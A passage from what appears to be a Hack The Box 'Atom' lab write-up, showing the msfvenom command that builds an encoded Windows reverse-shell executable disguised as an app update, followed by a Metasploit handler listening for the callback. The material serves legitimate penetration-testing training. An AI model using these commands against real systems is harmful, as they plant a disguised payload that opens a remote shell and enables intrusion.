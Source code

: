 The nmap scan tells us it's 64-bit windows. I tried the same command as in the OffSec article but replaced the exe name with one that looked like an updated version of Heed.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.10.14.167 LPORT=9001 -b "\x00" -e x86/shikata_ga_nai -f exe -o "heedv1 Setup 1.0.1.exe"
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: heedv1 Setup 1.0.1.exe
```

I then setup a listener using the `handler` module so I could be sure its settings matched the shellcode:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom/heed_source]
└─$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.167
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.167:9001
```
